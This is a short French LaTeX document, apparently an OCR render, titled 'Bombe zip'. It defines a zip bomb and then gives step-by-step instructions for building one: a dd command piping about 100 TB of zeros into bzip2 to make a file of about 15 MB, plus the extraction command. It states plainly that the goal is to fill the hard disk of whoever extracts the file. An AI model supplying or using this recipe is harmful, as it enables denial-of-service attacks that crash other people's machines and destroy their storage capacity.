 \documentclass[a4paper, 12pt]{article}
\begin{document}
   \section{Bombe zip}
   		\subsection{Qu'est-ce qu'une zip bomb ?}
         Une zip bomb est un fichier compressé de quelques MO qui contient énormément de données présente sous formes d'octets, ce qui va amener à saturer le disque dur. Le système va manquer de mémoire et se bloquer dans le processus.
		\subsection{Comment faire une zip bomb ?}
		\begin{flushleft}
			\noindent Entrez cette commande dans le terminal. 
			\item Cela compresse 100 To de données dans un fichier d’environ 14,9 Mo. Ainsi, lorsque quelqu’un essaie de l’extraire, il devrait s’étendre à plus de 1300000x sa taille et leur disque dur devrait être rempli de caractères nuls!
		
			\begin{lstlisting}
        		dd if=/dev/zero bs=10G count=10000 | bzip2 -c > zipBomb.bz2
        	\end{lstlisting}
        	\item Il suffit alors d'extraire le fichier via la commande suivante : 
        	\begin{lstlisting}
        		bzip2 -d zipBomb.bz2
        	\end{lstlisting}
        \end{flushleft}
	
	
\end{document}
